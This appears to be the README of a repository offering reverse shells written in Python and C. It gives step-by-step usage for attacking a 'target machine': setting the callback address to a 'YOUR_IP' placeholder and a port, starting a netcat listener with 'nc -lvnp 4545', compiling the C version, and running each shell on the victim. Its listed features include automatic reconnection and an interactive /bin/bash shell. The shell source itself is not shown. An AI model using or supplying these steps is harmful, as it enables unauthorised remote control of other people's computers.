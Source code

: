 # Reverse Shells (Python/C)

Here is 2 reverse shells written in **C** and **Python**

---

## Python Reverse Shell

### Compatibility
- `+` **Linux**
- `+` **Windows**  

### Usage
##### [!] Edit the IP and port in the script:
```
LHOST = 'YOUR_IP'
LPORT = 4545
```
Start a listener on your machine:
```
nc -lvnp 4545
```
Run the script on the target machine:
```
python reverse-shell.py
```
### Features

- Auto reconnecting every 5 seconds if connection isnt successful

- Easy to modify

## C Reverse Shell
### Compatibility

`+` Linux

`-` Windows (uses specific syscalls for linux)

### Compiling
```
gcc linux-reverse-shell.c -o reverse-shell
```
### Usage

#### [!] Edit the IP and PORT in code
```
#define IP "YOUR_IP"
#define PORT 4545 //or you can choose some other port
```

Start a listener:
```
nc -lvnp 4545
```
Run the compiled program on the target

```
./reverse_shell
```
### Features

- script will retry to connect every 20 seconds

- Interactive with /bin/bash shell

## Python version
